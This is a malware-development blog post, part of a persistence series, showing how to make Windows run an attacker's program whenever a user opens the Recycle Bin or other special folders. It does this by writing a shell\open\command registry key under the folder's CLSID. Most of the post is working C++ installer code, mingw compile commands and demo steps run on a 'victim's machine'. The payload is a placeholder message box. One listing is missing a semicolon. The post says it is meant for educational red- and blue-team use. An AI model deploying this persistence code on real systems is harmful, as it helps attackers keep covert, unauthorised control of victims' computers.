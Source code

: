 ```yaml
---
title:  "Malware development: persistence - part 21. Recycle Bin, My Documents COM extension handler. Simple C++ example."
date:   2023-01-20 01:00:00 +0300
header:
  teaser: "/assets/images/85/2023-01-20_00-28.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/85/2023-01-20_00-28.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via modifying Recycle Bin COM extension handling.     

### CLSID list

Certain special folders within the operating system are identified by unique strings:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - My Computer     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - My Documents     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - My Network Places     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Network Computers     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Printers and Faxes      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Recycle Bin       

Adding the `open\command` subkey to the CLSID and adding a new verb for the `shell` key will execute the value stored in the `\command` entry.      

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox application (`hack.cpp`):  

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, the logic is simple.    

### demo

Let's go to see everything in action. First of all, check Registry:      

```powershell
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](/assets/images/85/2023-01-19_23-39.png){:class="img-responsive"}    

Then, compile our "malware" at the attacker's machine (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/85/2023-01-19_23-16.png){:class="img-responsive"}    

And for checking correctness, try to run `hack.exe` at the victim's machine (`Windows 10 x64` in my case):    

```powershell
.\hack.exe
```

![pers](/assets/images/85/2023-01-19_23-49.png){:class="img-responsive"}    

As you can see, our "malware" works perfectly.    

At the next step, just compile our persistence script at the attacker's machine:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/85/2023-01-19_23-35.png){:class="img-responsive"}    

Finally, run this persistence script at the victim's machine and check Registry again:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](/assets/images/85/2023-01-20_00-19.png){:class="img-responsive"}    

So, as you can see, subkey added and the key value is set.    

Then, try to open Recycle Bin:    

![pers](/assets/images/85/2023-01-20_00-25.png){:class="img-responsive"}    

![pers](/assets/images/85/2023-01-20_00-25_1.png){:class="img-responsive"}    

If we open `ProcessExplorer` and see properties of `hack.exe`:     

![pers](/assets/images/85/2023-01-20_06-59.png){:class="img-responsive"}    

we can notice that its parent process is `explorer.exe (1680)`.     

Perfect! =^..^=

### what about another CLSID from the list?    

I made a small change to the persistence script:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Compile and run at the victim's machine:      

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](/assets/images/85/2023-01-20_07-09.png){:class="img-responsive"}    

But... Not working for me at Windows 10 as they use that stupid Start Menu, I can't find `My Documents` folder on the Desktop feature.    

I also try to do this trick with another CLSID at the `Windows 7 x86` machine. It works for `My Computer` folder.     

![pers](/assets/images/85/2023-01-20_07-22.png){:class="img-responsive"}    

![pers](/assets/images/85/2023-01-20_07-35.png){:class="img-responsive"}    

I don’t know if any APT groups or malware family applies this trick.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
